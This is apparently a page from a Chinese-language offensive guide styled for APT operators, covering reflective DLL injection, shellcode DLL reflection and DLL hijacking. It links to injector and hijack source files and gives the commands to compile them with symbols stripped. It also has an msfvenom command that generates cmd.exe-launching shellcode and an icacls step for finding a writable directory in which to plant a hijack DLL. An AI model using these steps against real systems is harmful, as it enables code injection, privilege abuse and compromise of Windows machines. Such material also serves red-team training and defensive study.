 ### 反射型DLL注入

[ReflectiveLoader.cpp](https://github.com/GhostWolfLab/APT-Individual-Combat-Guide/blob/main/Zh/%E7%AC%AC%E4%BA%94%E7%AB%A0/DLL_Injection/ReflectiveLoader.cpp)

```Bash
x86_64-w64-mingw32-gcc -shared -o ReflectiveLoader.dll ReflectiveLoader.cpp
```

[ReflectiveInjector.cpp](https://github.com/GhostWolfLab/APT-Individual-Combat-Guide/blob/main/Zh/%E7%AC%AC%E4%BA%94%E7%AB%A0/DLL_Injection/ReflectiveInjector.cpp)

```Bash
x86_64-w64-mingw32-g++ -O2 ReflectiveInjector.cpp -o ReflectiveInjector.exe -mconsole -I/usr/share/mingw-w64/include/ -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive
```

[ReflectiveDLLInjection](https://github.com/stephenfewer/ReflectiveDLLInjection)

### Shellcode DLL反射

```Bash
msfvenom -p windows/exec cmd=cmd.exe -f c -o shellcode.bin
```

[DLLReflective.cpp](https://github.com/GhostWolfLab/APT-Individual-Combat-Guide/blob/main/Zh/%E7%AC%AC%E4%BA%94%E7%AB%A0/DLL_Injection/DLLReflective.cpp)

```Bash
x86_64-w64-mingw32-gcc -shared -o DLLReflective.dll DLLReflective.cpp
```

[dll_reflective_injection.cpp](https://github.com/GhostWolfLab/APT-Individual-Combat-Guide/blob/main/Zh/%E7%AC%AC%E4%BA%94%E7%AB%A0/DLL_Injection/dll_reflective_injection.cpp)

```Bash
x86_64-w64-mingw32-g++ -O2 dll_reflective_injection.cpp -o dll_reflective_injection.exe -mconsole -I/usr/share/mingw-w64/include/ -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive
```

[sRDI](https://github.com/monoxgas/sRDI)

## DLL劫持

### 实现DLL劫持

[Process Monitor v4.01](https://learn.microsoft.com/en-us/sysinternals/downloads/procmon)

示例DLL劫持程序 [BgInfo v4.32](https://learn.microsoft.com/en-us/sysinternals/downloads/bginfo)

查看目录读写权限
```Bash
icacls C:\Users\...\Downloads\BGInfo\
```

[SspiCli.cpp](https://github.com/GhostWolfLab/APT-Individual-Combat-Guide/blob/main/Zh/%E7%AC%AC%E4%BA%94%E7%AB%A0/DLL_Hijacking/SspiCli.cpp)
